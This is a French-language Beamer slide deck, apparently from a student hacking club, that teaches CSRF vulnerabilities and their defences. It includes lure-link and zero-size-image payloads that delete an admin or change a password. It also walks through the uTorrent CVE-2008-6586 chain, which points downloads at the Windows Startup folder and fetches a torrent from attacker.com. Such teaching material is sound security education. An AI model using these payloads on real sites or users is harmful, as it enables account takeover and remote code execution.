\documentclass{beamer}

\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{lmodern}
% \usepackage{forloop}
\usepackage{multicol}
\usepackage{animate}
\usepackage{default}
\usepackage{listing}

\usepackage[list=true]{subcaption}
\captionsetup{compatibility=false}
\usepackage{etex}


\usepackage{tikz}
\usepackage{pgfplots}

\usepackage{listings}
% \usepackage{polyglossia}
% \usepackage{listings}
% \usepackage{ulem}
% \usepackage{multicol}

% \setbeamertemplate{navigation symbols}{}
% \setbeamertemplate{sidebar right}{}
% \setbeamertemplate{footline}{\hfill\insertframenumber{} | \inserttotalframenumber}


% \newcommand{\myline}{\par
%     \kern0.5pt
%     \hrule height 0.8pt
%     \kern0.5pt
% }

\usecolortheme{cormorant}
\useoutertheme{infolines}

\lstset{language=HTML,
                basicstyle=\ttfamily,
                keywordstyle=\color{cyan}\ttfamily,
                stringstyle=\color{red}\ttfamily,
}                

\title[failles csrf]{H4ck 1n TN}
\subtitle{Les vulnérabilités CSRF}
\author[H4ck1nTN]{Olivier Dautricourt}
\date{\today}
\logo{
\includegraphics[width=1.3cm]{logo.png}}

\begin{document}

\begin{frame}
\titlepage
\end{frame} 


\section{Une faille csrf: kézako ?}

\frame{\tableofcontents[currentsection]}

\begin{frame}

\begin{itemize}
	\item CSRF: Cross Site Request Forgery ou ("Sea surf")
	\item Rediriger un utilisateur authentifié (admin, user lambda) sur une action interne d'un site.
	\item A pour effet d'exécuter une action avec les privilèges d'un autre utilisateur.
	\item Avantages: très facile de créer des exploit et de les utiliser.
\end{itemize}

\end{frame}

\begin{frame}

\centerline{
\includegraphics[scale=0.45]{csrf.png}}

\end{frame}
\section{Les méthodes d'exploit}

\frame{\tableofcontents[currentsection]}

\begin{frame}

\begin{block}{GET}

\begin{itemize}

\item Un simple lien: \\
<a href="\url{http://vulnerable.com?user=ADMIN&delete=1"}>\\
iPhone 6 gratos !</a>

\item Une image de taille nulle: \\
<img src="\url{http://vulnerable.com?user=ADMIN&passwd=1234"}\\
 width="0" height="0" border="0">

\end{itemize}

\end{block}

\end{frame}


\begin{frame}
\begin{block}{POST}
	\lstinputlisting[language=HTML]{post.html}
\end{block}
\end{frame}


\section{Exemple}

\frame{\tableofcontents[currentsection]}

\begin{frame}

\begin{block}{CVE-2008-6586 (utorrent)}

\url{http://localhost:14774/gui/?action=setsetting&s=dir_completed_download_flag&v=1}


\vspace{5mm}

\url{
http://localhost:14774/gui/?action=setsetting&s=dir_completed_download&v=C\\Documents\%20and\%20Settings\\All\%20Users\\Start\%20Menu\\Programs\\Startup
}

\vspace{5mm}

\url{http://localhost:14774/gui/?action=add-url&s=http://www.attacker.com/file.torrent}


\end{block}


\end{frame}

\section{S'en protéger}


\frame{\tableofcontents[currentsection]}


\begin{frame}

Quelques solutions pour se protéger des failles CSRF:
\\
\begin{itemize}
\item Ne pas faire d'actions potentiellement dangereuses avec GET
\item Utiliser un token d'authentification
\item Renseigner le header HTTP 'Referrer' et le vérifier coté serveur
\item Supprimer ses cookies le plus souvent possible
\end{itemize}

Une faille XSS rendrait obsolète la plupart de ces méthodes de protection.

\end{frame}

\begin{frame}
\begin{block}{Synchronizer token pattern}
\begin{itemize}
\item Token unique généré par session d'utilisateur ou même par requête
\item Cryptographiquement sûr (graine aléatoire, session id, timestamp, ...)
\item Inséré dans tous les formulaires modifiant l'état du serveur
\item Vérifié par le serveur à chaque requête
\end{itemize}
\end{block}
\end{frame}

\begin{frame}
\centerline{
\includegraphics[scale=0.35]{encrypted-token-pattern.png}}
\end{frame}

\begin{frame}
\begin{block}{Inclusion du token dans un formulaire}
\lstinputlisting[language=HTML]{form-token.html}
\end{block}
\end{frame}


\section{Challenges}

\frame{\tableofcontents[currentsection]}

\begin{frame}

Voici trois challenges pour cette semaine =)

\begin{itemize}
\item Nouveaux challenges sur Root-me: CSRF-0-protection,
\\CSRF-contournement-de-jeton (pas résolu celui-là)

\item Une faille CSRF est présente sur le futur site !! 
\\
Trouvez la et corrigez la :
\\
\url https://github.com/Ododo/HiT\_web

\end{itemize}

\end{frame}

\end{document}
